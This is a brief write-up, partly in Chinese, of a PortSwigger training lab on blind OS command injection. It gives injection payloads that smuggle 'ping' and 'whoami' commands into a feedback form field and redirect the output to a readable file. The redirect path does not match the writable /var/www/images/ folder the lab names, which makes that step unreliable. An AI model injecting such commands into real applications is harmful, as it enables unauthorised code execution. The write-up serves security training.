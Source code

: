 # Blind OS command injection with output redirection

## Information
---

- [PortSwigger - Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output. 

## Solution
---

1. 透過以下 payload 對每個參數檢查是否存在 command injection 漏洞。
    ```
    ;ping+-c+10+127.0.0.1;
    ```

2. 發現 email 參數存在 command injection 漏洞。則根據題意將 `whoami` 結果重定向至 **/var/www/output.txt**。
    ```
    ;whoami>/var/www/output.txt;
    ```

3. 最後透過開啟圖片的 **filename** 參數更改為 **output.txt**。
    ```
    ?filename=output.txt
    ```